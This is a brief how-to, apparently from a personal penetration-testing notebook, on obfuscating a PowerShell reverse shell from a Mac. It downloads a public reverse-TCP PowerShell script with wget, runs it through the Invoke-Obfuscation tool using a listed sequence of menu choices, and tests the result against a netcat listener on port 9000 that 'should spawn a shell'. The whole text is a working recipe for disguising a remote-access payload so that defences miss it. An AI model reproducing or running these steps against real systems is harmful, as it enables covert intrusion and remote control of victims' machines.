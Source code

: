 
Use powershell on Mac (on Windows it's quite a hassle).

Install powershell on mac & Invoke-Obfuscation: 
```
brew install --cask powershell
cd ~/Tools
git clone https://github.com/danielbohannon/Invoke-Obfuscation
wget https://raw.githubusercontent.com/ivan-sincek/powershell-reverse-tcp/master/src/invoke_expression/original/powershell_reverse_tcp.ps1
```


Use Invoke-Obfuscation:
```
cd ~/tools/Invoke-Obfuscation
pwsh
Import-Module ./Invoke-Obfuscation.psd1
Invoke-Obfuscation
```

Encode script:
```
SET SCRIPTPATH ~/tools/powershell_reverse_tcp.ps1
TOKEN

COMMENT
1
BACK

Type
2
BACK

Argument
4
BACK

Command
3
BACK

String
2
BACK
```

You can test with:
```
#new window:
nc -lv 9000
#in the invoke powershell menu:
TEST
```
This should spawn a shell.



